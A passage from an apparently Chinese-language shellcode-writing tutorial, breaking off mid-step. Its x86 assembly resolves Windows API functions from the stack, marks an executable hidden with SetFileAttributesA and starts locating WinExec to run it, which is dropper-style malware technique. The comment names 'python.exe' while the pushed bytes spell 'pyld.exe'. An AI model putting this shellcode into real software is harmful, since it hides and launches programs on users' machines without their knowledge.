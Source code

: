     pop edx
    ```
7. 找到SetFileAttributesA()地址
    ```bash
    
    ;Finding address of SetFileAttributesA()
    xor edx,edx


    push 0x42424173
    mov [esp+2],byte dl
    push 0x65747562
    push 0x69727474
    push 0x41656c69
    push 0x46746553

    push esp
    push edi

    call esi


    add esp,20 ;U must adjust stack or it will crash
    ```
8. 调用SetFileAttributesA()

    ```bash
    ;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
    xor ecx,ecx
    push ecx
    push 0x6578652e
    push 0x646c7970

    push esp
    pop ecx

    xor edx,edx
    add edx,2 ;FILE_ATTRIBUTE_HIDDEN

    push edx
    push ecx

    call eax

    add esp,8
    ```

9. 找到WinExec()函数地址

    ```bash
    ;finding address of WinExec()
    xor ecx,ecx

    push 0x41636578
    mov [esp+3],byte cl
    push 0x456e6957

    push esp
    push edi
    call esi
